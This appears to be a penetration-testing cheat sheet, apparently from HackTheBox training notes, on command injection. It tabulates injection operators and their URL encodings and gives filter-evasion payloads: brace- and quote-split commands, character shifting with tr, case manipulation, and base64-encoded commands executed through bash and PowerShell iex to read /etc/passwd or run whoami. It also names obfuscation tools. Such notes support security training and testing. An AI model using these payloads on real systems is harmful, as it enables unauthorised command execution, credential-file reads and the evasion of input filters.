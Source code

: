 ## Info

In general, for basic command injection, all of these operators can be used for command injections regardless of the web application language, framework, or back-end server

However, it is very common for developers only to perform input validation on the front-end while not validating or sanitizing the input on the back-end. 



## Enumeration


| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
| --- | --- | --- | --- |
| Semicolon | ; | %3b | Both |
| New Line | \n | %0a | Both |
| Background | & | %26 | Both (second output generally shown first) |
| Pipe | | | %7c | Both (only second output is shown) |
| AND | && | %26%26 | Both (only if first succeeds) |
| OR | || | %7c%7c | Second (only if first fails) |
| Sub-Shell | `` | %60%60 | Both (Linux-only) |
| Sub-Shell | $() | %24%28%29 | Both (Linux-only) |

The easiest method to customize the HTTP requests being sent to the back-end server is to use a web proxy

| Injection Type | Operators |
| --- | --- |
| SQL Injection | ' , ; -- /* */ |
| Command Injection | ; && |
| LDAP Injection | * ( ) & | |
| XPath Injection | ' or and not substring concat count |
| OS Command Injection | ; & | |
| Code Injection | ' ; -- /* */ $() ${} #{} %{} ^ |
| Directory Traversal/File Path Traversal | ../ ..\\ %00 |
| Object Injection | ; & | |
| XQuery Injection | ' ; -- /* */ |
| Shellcode Injection | \x \u %u %n |
| Header Injection | \n \r\n \t %0d %0a %09 |

**Bypassing blacklisted characters**

`/`:`echo ${PATH:0:1}`

`cat /etc/passwd`:`{cat,/etc/passwd}`

`\`:`$env:HOMEPATH[0]`

`21y4d@htb[/htb]**$** w'h'o'am'i`

`21y4d@htb[/htb]**$** w"h"o"am"i`

`who$@ami`

`C:\htb> who^ami`

**Character Shifting**

There are other techniques to produce the required characters without using them, like shifting characters. For example, the following Linux command shifts the character we pass by 1. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with man ascii), then add it instead of [ in the below example. This way, the last printed character would be the one we need

```
XeroCyb3r@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
XeroCyb3r@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)
```

**Case Manipulation**

`21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`

**Reversing**

`XeroCyb3r@htb[/htb]**$** echo -n 'cat /etc/passwd | grep 33' | base64`

`XeroCyb3r@htb[/htb]**$** bash<<<**$**(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`

`PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`

`XeroCyb3r@htb[/htb]**$** echo -n whoami | iconv -f utf-8 -t utf-16le | base64`

`PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`

## Evasion Tools

- Bashfuscator
- DOSfuscation(Windows)

## Reference:

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space
